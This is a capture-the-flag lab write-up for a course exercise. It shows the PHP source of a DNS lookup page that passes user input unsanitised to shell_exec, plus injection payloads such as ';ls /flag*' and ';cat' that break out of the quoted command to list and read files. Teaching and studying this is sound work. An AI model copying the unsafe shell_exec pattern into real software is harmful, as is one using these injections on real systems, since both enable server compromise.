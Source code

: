 ```yaml
---
title: Simple Web 0x09(Lab - DNS Lookup Tool)
tags: [NTUSTWS, CTF, Web]

category: "Security > Course > NTUST WS > Command Injection"
---
```


# Simple Web 0x09(Lab - DNS Lookup Tool)
###### tags: `NTUSTWS` `CTF` `Web`
Challenge: http://h4ck3r.quest:8300/

## Source code
:::spoiler code
```php=
 <?php
isset($_GET['source']) and die(show_source(__FILE__, true));
?>

<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>DNS Lookup Tool | Baby</title>
    <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bulma@0.9.3/css/bulma.min.css">
</head>

<body>
    <section class="section">
        <div class="container">
            <div class="column is-6 is-offset-3 has-text-centered">
                <div class="box">
                    <h1 class="title">DNS Lookup Tool 🔍</h1>
                    <form method="POST">
                        <div class="field">
                            <div class="control">
                                <input class="input" type="text" name="name" placeholder="example.com" id="hostname" value="<?= $_POST['name'] ?? '' ?>">
                            </div>
                        </div>
                        <button class="button is-block is-info is-fullwidth">
                            Lookup!
                        </button>
                    </form>
                    <br>
                    <?php if (isset($_POST['name'])) : ?>
                        <section class="has-text-left">
                            <p>Lookup result:</p>
                            <pre><?= shell_exec("host '" . $_POST['name'] . "';") ?></pre>
                        </section>
                    <?php endif; ?>
                    <hr>
                    <a id="magic">Magic</a> | <a href="/?source">Source Code</a>
                </div>
                <article class="message is-link is-hidden is-size-4" id="hint">
                    <div class="message-body is-family-monospace">
                        host '<span class="has-text-danger" id="command"></span>';
                    </div>
                </article>
            </div>
        </div>
    </section>

    <script>
        magic.onclick = () => hint.classList.toggle("is-hidden");
        window.onload = hostname.oninput = () => command.textContent = hostname.value;
    </script>
</body>

</html> 
```
:::

## Exploit
1. According to the source code, seems there's no any protection.
2. `shell_exec`
It used `shell_exec` to parse input string.
`shell_exec("host '" . $_POST['name'] . "';")`
`shell_exec("host '" . ';ls /flag*' . "';")`→`host '';ls /flag*'';`
![](https://i.imgur.com/6rCN8gy.png)
↓
`shell_exec("host '" . ';cat /flag_44ebd3936a907d59'. "';")`
* Note that, you can use `psysh` or `php -a` in Linux with interactive mode to try the payload
3. Then we got flag!!!


## Reference
[PHP system()、exec()、shell_exec() 的 差異](https://blog.longwin.com.tw/2013/06/php-system-exec-shell_exec-diff-2013/)